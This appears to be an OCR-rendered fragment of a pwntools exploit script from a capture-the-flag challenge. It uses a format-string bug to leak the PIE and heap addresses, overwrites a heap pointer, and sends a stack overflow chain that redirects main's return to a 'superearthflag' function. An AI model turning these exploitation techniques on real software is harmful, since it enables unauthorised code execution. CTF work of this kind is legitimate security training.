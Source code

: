 ```
leak = int(p.recvline().decode('utf-8').strip(), 16)-34        # This leak is of (main+34), so subtract 34
print("PIE leak: ", hex(leak))
print("PIE base: ", hex(leak - e.sym['main']))

e.address = leak - e.sym['main']

# Now get the address of superearthflag
superearthflag_addr = e.sym['superearthflag']
ret = e.address + r.find_gadget(["ret"])[0]
# Leak heap address
# Since main leak was at rbp+8, we our heap address at rbp-8 will be 2 offsets back
offset = offset-2

# Get leak of heap
p.recvuntil(b'>>> \n')
p.sendline(bytes(f'%{offset}$p', 'utf-8'))
# pause()
p.recvline()
heap = int(p.recvline().decode('utf-8').strip(), 16)
print("Heap leak: ", hex(heap))
heap_payload = fmtstr_payload(6, {heap: ret}, write_size='short')

# Now send heap overwrite
p.recvuntil(b'>>> \n')
p.sendline(heap_payload)
#Looking into deployObjective, we need to unmangle the pointer


p.recvuntil(b'>>> \n')
p.sendline(bytes('⬇ ⬆ ⬇ ⬆', 'utf-8'))
p.recvuntil(b"today?\n")
p.send(p64(0x1337+0x8))
p.recvuntil(b"credentials:\n")
p.send(p64(ret))


p.recvuntil(b'>>> \n')
p.sendline(b'Quit\00')

p.recvline()
p.recvline()

chain =  b'N'*120                   # Enter 'quit'
chain += p64(heap)                  # Validation expects a pointer to the heap
chain += b'N'*8
chain += p64(ret)                   # We got a movaps, so we have to set the return pointer to a ret gadget
chain += p64(superearthflag_addr)              # Overwrite main's return pointer

p.sendline(chain)

p.interactive()
```